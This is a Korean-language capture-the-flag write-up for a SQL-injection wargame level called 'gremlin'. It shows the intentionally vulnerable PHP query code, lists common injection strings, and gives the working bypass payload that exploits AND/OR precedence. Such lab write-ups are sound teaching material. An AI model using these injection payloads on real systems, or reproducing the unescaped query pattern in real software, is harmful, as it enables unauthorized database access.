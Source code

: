 # GREMLIN

## Problem
```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

## Background Knowledge
* [SQL Injection - Wikipedia](https://en.wikipedia.org/wiki/SQL_injection)
	- SQL 인젝션은 응용 프로그램 보안 상의 허점을 의도적으로 이용해, 악의적인 SQL문을 실행하여 데이터베이스를 비정상적으로 조작하는 코드 인젝션 공격 방법이다.
	- 구현
		+ 걸러지지 않은 탈출 문자
			- `' OR '1'='1`
			- `' OR '1'='1' {`
			- `' OR '1'='1' --`
			- `' OR '1'='1' /* `
		+ 정확하지 않은 타입 핸들링
		+ 블라인드 SQLi

## Inspection
* `preg_match`로 거르는 것은 다른 테이블을 건드는 것을 막기 위함이지, 문제에 관한 것은 아니다.
* `select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'`
	- 파라미터로 `id`와 `pw`를 넘겨준다.
	- 이 파라미터들이 위 쿼리문에 들어간다.
* `if($result['id']) solve("gremlin");`
	- 위 쿼리문을 날렸을 때 `id` 열의 결과물이 있어야 통과한다.
* 파라미터에 `'`를 날려도 걸러지지 않는다.

## Solution
* 걸러지지 않는 탈출 문자(`'`)와 `AND`, `OR` 연산자 우선순위의 차이를 이용한다.
	- `?id=guest&pw=1234' or '1=1`
	- 쿼리가 `select id from prob_gremlin where id='guest' and pw='1234' or '1=1'` 와 같이 정상적으로 처리된다.